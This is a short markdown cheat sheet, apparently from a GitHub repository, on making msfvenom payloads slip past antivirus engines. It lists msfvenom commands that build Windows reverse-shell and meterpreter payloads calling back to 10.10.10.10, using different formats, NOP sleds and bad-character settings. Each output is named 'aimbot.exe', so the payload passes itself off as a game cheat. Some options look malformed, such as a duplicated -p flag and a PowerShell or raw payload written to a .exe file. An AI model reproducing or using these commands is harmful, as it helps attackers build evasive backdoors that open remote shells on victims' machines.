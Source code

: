 # MSFvenom Bypasses

## Bypass AV Shellcode Technique

If we create a normal msf payload, then it will get detected by most AV engines (antiscan.me)

### normal payload

```bash
msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4083 -f exe > aimbot.exe
```

### exe-only flagged

```bash
msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4928 -f exe-only -o aimbot.exe
```

### raw format

```bash
msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4928 -f raw -o aimbot.exe
```

### x86 + smallest + psh format

```bash
msfvenom -p windows -a x86 -p windows/meterpreter/reverse_http LHOST=10.10.10.10 LPORT=4928 -f psh smallest -o aimbot.exe
```

### Custom binary shellcode

```bash
msfvenom -p windows -a x86 -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4928 -c -b \x00\x0a\x0d -o aimbot.exe
```

### x86 + no stage + NOP sled + smallest + raw

```bash
msfvenom -p windows -a x86 -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4928 -f raw smallest -n 100 -o aimbot.exe
```

### x64 exe-only + no stage + smallest + NOP sled

```bash
msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4928 -f raw -n 100 -o aimbot.exe
```

### x86 + no stage + NOP sled + smallest + raw + custom

```bash
msfvenom -p windows -a x86 -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4928 -f raw smallest -n 100 -b \x00\x0a\x0d -o aimbot.exe
```

